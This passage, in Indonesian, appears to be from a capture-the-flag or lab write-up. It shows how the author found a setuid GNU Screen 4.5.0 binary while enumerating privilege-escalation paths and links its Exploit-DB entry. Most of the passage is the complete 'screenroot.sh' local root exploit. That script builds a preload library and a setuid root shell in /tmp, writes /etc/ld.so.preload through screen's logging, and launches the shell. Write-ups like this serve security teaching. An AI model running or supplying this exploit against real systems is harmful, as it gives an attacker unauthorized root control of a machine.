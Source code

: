 Dikarenakan penulis belum terlalu familiar dengan beberapa dari files yang ada di sini, maka penulis mencari 1 per 1 referensi atas files yang ada, dengan keyword di google (Nama File) exploit / zero day / priv escal. Ternyata terdapat 1 celah yang dapat kita manfaatkan

```
-rwsr-xr-x 1 root root 1595624 Jul  4 00:25 /bin/screen-4.5.0
```

[https://www.exploit-db.com/exploits/41154](https://www.exploit-db.com/exploits/41154)

Script untuk privilege escalation

```
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```
